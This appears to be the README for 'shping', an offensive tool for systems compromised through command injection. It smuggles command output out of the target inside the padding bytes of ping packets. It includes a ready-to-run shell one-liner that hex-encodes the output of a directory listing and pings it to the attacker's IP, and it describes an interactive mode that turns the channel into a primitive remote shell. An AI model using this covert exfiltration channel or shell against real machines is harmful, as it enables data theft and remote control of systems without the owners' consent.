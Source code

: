 # shping

Got command injection on a UNIX system but the only thing you can do is ping yourself?

Well don't despair. With this little tool you can receive the output of your commands, as well as any other data, inserted in the ping's padding space. From its manual:

```
-p pattern
	You may specify up to 16 “pad” bytes to fill out the packet you send. This is useful for diagnosing data-dependent problems in a network. For example, -p ff will cause the sent packet to be filled with all ones.
```

You can even use it as a primitive shell, after setting it up properly.

Does not work with windows ping or any other version that doesn't have that option.

[![asciicast](https://asciinema.org/a/r44J5GJki15TZyvYaCsicVlzJ.svg)](https://asciinema.org/a/r44J5GJki15TZyvYaCsicVlzJ)

## usage

```
↬  python3 shping.py -h
usage: shping.py [-h] [-o outputFile] [-i] targetIP encapChr

Read data sent as padding from unix ping tool through the -p option. Can be
used as just a data receiver or as a primitive shell after implementing the
sendCommand function

positional arguments:
 targetIP              Target IP address
 encapChr              Character to use for encapsulating data. Must be the
					   same character used on the other end

optional arguments:
 -h, --help            show this help message and exit
 -o outputFile, --outfile outputFile
					   Set this if you want to save all the output to a file
 -i, --interactive     Interactive shell mode

```

Note that the data you want to receive must be sent to ping as hex-encoded. This varies based on the tools you have at your disposal, for example you can use xxd or hexdump (see below).

Also, the data you want to receive must be enclosed by a string of 16 identical characters (encapChr parameter). That's for two reasons:

1. To ensure the data is always 16 bytes long. In reality, the padding space is larger, but ping only accepts 16 bytes then repeats part of it, and if you feed it less it will reorder the bytes in a confusing way.
2. To grab the offset where our data starts in the icmp packet.

So on the remote machine you'll want to execute something like this:

```
cont="AAAAAAAAAAAAAAAA""$(ls -l /)""AAAAAAAAAAAAAAAA"; echo -n "$cont" | hexdump -v -e '16/1 "%02x" "\n"' | while read line; do ping -c 1 -p $line 198.51.100.1; done
```

where `198.51.100.1` is your ip (or with `xxd -c 16 -ps` in place of hexdump...), while on your local machine you'll run shping like:
```
python3 shping.py 198.51.100.2 A
```
where `198.51.100.2` is the ip of the remote machine.

## interactive mode

You can directly send and receive commands through shping by implementing the `sendCommand` function to basically do the same thing you'd manually do in the first step above (eg. http get/post). Then just launch shping as before but with the `-i` option and type your commands.

## notes

- only works on ipv4
- no ping -p option = no shping (<- windows)
- there are far better tools to use if you can do more stuff on the remote machine. this is just for the situations where you're strictly limited to basic commands and can't upload/download files to/on the target
